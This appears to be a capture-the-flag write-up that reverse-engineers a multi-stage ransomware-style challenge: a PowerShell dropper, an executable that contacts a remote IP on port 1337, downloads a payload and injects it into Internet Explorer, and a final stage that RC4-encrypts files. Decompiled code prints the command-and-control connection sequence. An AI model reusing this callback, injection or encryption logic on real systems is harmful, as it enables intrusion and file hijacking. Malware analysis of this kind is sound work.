





# **Unionware**

### **Description:**



### **Part 1: powershell file analysis**

This is an obfuscate form of powershell, used `spit()` . Write scripts to get content clearly. Then we will have the file  `lnELKNdoie .exe`

### **Part 2: `lnELKNdoie.exe` file analysis**

At the beginning of the file there is `checkVM` function and some other checks, I choose next directly through these checks.



Enter `conn`  function, because the file used `xor obfuscate`, I debug to know function to be called, explain to `conn`:

```c
// define winsock
v6 = ((int (__cdecl *)(int, int *, int, int))ws2_32_WSAStartup(514, &v40, a3, a4);

// get info of this addr 35.241.159.62 --> 62.159.241.35.bc.googleusercontent.com
((int (__stdcall *)(__m128i *, int, _DWORD *, void (**)(void)))ws2_32_getaddrinfo)(&v38, dword_40A3F8, v41, &v39);

// socket
    s = (const CHAR *)((int (__stdcall *)(_DWORD, _DWORD, _DWORD, __m128i *))ws2_32_socket)(*((_DWORD *)v39 + 1),*((_DWORD *)v39 + 2),*((_DWORD *)v39 + 3),v48);
    
// conn 62.159.241.35.bc.googleusercontent.com:1337
((int (__stdcall *)(const CHAR *, _DWORD, _DWORD))ws2_32_connect)(s,*((_DWORD *)v35 + 6),*((_DWORD *)v35 + 4));

// send: "KADMKLAFD:LSM$OPM@FLK:FM!N$@N$"
((int (__stdcall *)(const CHAR *, __m128i *, int, _DWORD))ws2_32_send)(s,&v28,&v28.m128i_i8[strlen(v28.m128i_i8) + 1] - &v28.m128i_i8[1],0)

 // recv
((int (__stdcall *)(const CHAR *, _BYTE *, int, _DWORD))ws2_32_recv)(s, buf, 1024, 0);

// shutdown
(int (__stdcall *)(const CHAR *, int))ws2_32_shutdown)(s, 1);
```

receive data until  `size == 0x6B200`:



The downloaded file will be Injected into IE, this Inject technique is quite similar [link](https://www.ired.team/offensive-security/code-injection-process-injection/injecting-to-remote-process-via-thread-hijacking)

### **Part 3: file `out.exe`**

The file will look in the folder `Document` file plaintext:

```c
  v14 = SHGetFolderPathA(0, 5, 0, 0, pszPath);
  j_strncat(pszPath, "\\j3w3ls", 8u);           // //Documents//j2w3ls
```

process `encrypt data`:



Enter `encrypt`  function, we will see many functions that define the functions in the `cryptopp` library, and then create `key 128bytes` by `random` function with seed at the time of `encrypt` :



Struct file:

- The first 128 bytes are the key RC4
- The other is the ciphert text

Writing a simple script to recover the original file is going to have the `flag`.

All file `.idb` and scripts i used in `files folder`.

### Reference

[RC4.c](https://gist.github.com/rverton/a44fc8ca67ab9ec32089)
